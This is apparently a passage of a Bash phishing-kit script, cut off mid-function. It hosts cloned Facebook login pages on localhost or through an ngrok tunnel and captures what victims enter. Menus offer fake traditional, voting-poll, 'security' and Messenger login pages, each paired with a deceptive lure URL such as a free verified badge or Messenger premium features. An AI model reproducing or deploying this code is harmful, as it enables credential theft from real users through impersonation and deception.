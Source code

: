 ## Start localhost
start_localhost() {
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Initializing... ${GREEN}( ${CYAN}http://$HOST:$PORT ${GREEN})"
	setup_site
	{ sleep 1; clear; banner_small; }
	echo -e "\n${RED}[${WHITE}-${RED}]${GREEN} Successfully Hosted at : ${GREEN}${CYAN}http://$HOST:$PORT ${GREEN}"
	capture_data
}

## Tunnel selection
tunnel_menu() {
	{ clear; banner_small; }
	cat <<- EOF

		${RED}[${WHITE}01${RED}]${ORANGE} Localhost ${RED}[${CYAN}For Devs${RED}]
		${RED}[${WHITE}02${RED}]${ORANGE} Ngrok.io  ${RED}[${CYAN}Best${RED}]

	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select a port forwarding service : ${BLUE}"

	if [[ "$REPLY" == 1 || "$REPLY" == 01 ]]; then
		start_localhost
	elif [[ "$REPLY" == 2 || "$REPLY" == 02 ]]; then
		start_ngrok
	else
		echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
		{ sleep 1; tunnel_menu; }
	fi
}

## Facebook
site_facebook() {
	cat <<- EOF

		${RED}[${WHITE}01${RED}]${ORANGE} Traditional Login Page
		${RED}[${WHITE}02${RED}]${ORANGE} Advanced Voting Poll Login Page
		${RED}[${WHITE}03${RED}]${ORANGE} Fake Security Login Page
		${RED}[${WHITE}04${RED}]${ORANGE} Facebook Messenger Login Page

	EOF

	read -p "${RED}[${WHITE}-${RED}]${GREEN} Select an option : ${BLUE}"

	if [[ "$REPLY" == 1 || "$REPLY" == 01 ]]; then
		website="facebook"
		mask='http://blue-verified-badge-for-facebook-free'
		tunnel_menu
	elif [[ "$REPLY" == 2 || "$REPLY" == 02 ]]; then
		website="fb_advanced"
		mask='http://vote-for-the-best-social-media'
		tunnel_menu
	elif [[ "$REPLY" == 3 || "$REPLY" == 03 ]]; then
		website="fb_security"
		mask='http://make-your-facebook-secured-and-free-from-hackers'
		tunnel_menu
	elif [[ "$REPLY" == 4 || "$REPLY" == 04 ]]; then
		website="fb_messenger"
		mask='http://get-messenger-premium-features-free'
		tunnel_menu
	else
		echo -ne "\n${RED}[${WHITE}!${RED}]${RED} Invalid Option, Try Again..."
		{ sleep 1; clear; banner_small; site_facebook; }